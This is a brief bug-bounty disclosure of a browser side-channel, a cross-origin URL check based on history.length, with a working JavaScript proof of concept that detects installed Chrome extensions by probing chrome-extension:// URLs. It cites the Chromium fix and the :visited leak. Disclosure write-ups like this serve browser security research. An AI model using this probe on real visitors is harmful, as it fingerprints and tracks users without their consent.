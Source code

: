 ```yaml
---
title: Cross-origin URL detection via "history.length" (Awarded $5000)
---
```


Same URL navigations don't normally increase history.length, So by checking if it increases this allows the opener to check the exact URL of a window.
This was fixed in Chromium for a cross-origin initiator if there's no error, there are currently timing attacks with same document navigations however. <https://chromium-review.googlesource.com/c/chromium/src/+/2983325>

```js
async function isLocation(w, url) {
    w.location = "about:blank";
    await new Promise(resolve => setTimeout(resolve, 500));
    let start = w.history.length;
    w.history.back();
    await new Promise(resolve => setTimeout(resolve, 500));
    w.location = url;
    await new Promise(resolve => setTimeout(resolve, 500));
    w.location = "about:blank";
    await new Promise(resolve => setTimeout(resolve, 500));
    let diff = w.history.length - start;
    w.history.go(-1 - diff);
    return (diff === 0);
}

// Invalid extension IDs get set to "chrome-extension://invalid/"
async function hasExtension(id) {
    let w = open("chrome-extension://" + encodeURIComponent(id));
    await new Promise(resolve => setTimeout(resolve, 500));
    let state = await isLocation(w, "chrome-extension://invalid/");
    w.close();
    return !state;
}

await hasExtension("aohghmighlieiainnegkcijnfilokakq"); // return true/false
```

Also [40087397 - Eliminate :visited privacy issues once and for all - chromium](https://issues.chromium.org/issues/40087397) still works for some browsers except chromium <https://developer.chrome.com/blog/visited-links>
